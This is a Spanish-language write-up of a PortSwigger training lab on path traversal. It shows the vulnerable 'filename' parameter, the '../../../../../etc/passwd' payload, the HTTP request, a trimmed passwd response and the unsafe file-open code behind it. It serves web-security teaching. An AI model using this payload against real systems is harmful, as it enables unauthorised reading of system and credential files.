

# Write-up - PortSwigger Lab: File Path Traversal (Simple Case)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: Traversal de rutas de archivos, caso simple

Este laboratorio contiene una vulnerabilidad de recorrido de rutas (path traversal) en la visualización de imágenes de productos.

Objetivo: Recuperar el contenido del archivo `/etc/passwd`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CONCEPTO CLAVE: PATH TRAVERSAL

El servidor construye rutas de archivos de forma insegura:

```text
/images/ + filename
```

Si controlamos `filename`, podemos salir del directorio usando:

```text
../
```

Ejemplo:

```text
../../../../../etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO 1: ACCESO A LA WEB

Abrimos el laboratorio:

```text
https://0a9f0012043968fd81147faa003f00e5.web-security-academy.net/
```


--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO 2: DETECCIÓN DEL PARÁMETRO

Click en un producto → inspeccionar imagen → abrir en nueva pestaña:

```text
/image?filename=58.jpg
```

Petición capturada:

```http
GET /image?filename=58.jpg HTTP/2
```

Este es el parámetro vulnerable: `filename`

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO 3: EXPLOTACIÓN

Payload:

```text
../../../../../etc/passwd
```

Petición final:

```http
GET /image?filename=../../../../../etc/passwd HTTP/2
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO 4: RESPUESTA

```text
root:x:0:0:root:/root:/bin/bash
...
carlos:x:12002:12002::/home/carlos:/bin/bash
```

Esto confirma:

- Lectura arbitraria de archivos
- Acceso al sistema Linux

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ¿POR QUÉ FUNCIONA?

La aplicación hace algo así:

```python
open("/var/www/images/" + filename)
```

Y no valida:

- `../`
- rutas absolutas

Entonces el sistema interpreta:

```text
/var/www/images/../../../../../etc/passwd
```

que se resuelve como:

```text
/etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO FINAL

Entramos a la web → laboratorio resuelto



--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# RESUMEN

Vector: filename  
Técnica: Path Traversal  
Payload:

```text
../../../../../etc/passwd
```

Resultado: Lectura del sistema

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# FRASE CLAVE

No estás rompiendo la app.

Estás engañando al sistema de archivos para que lea donde no debe.
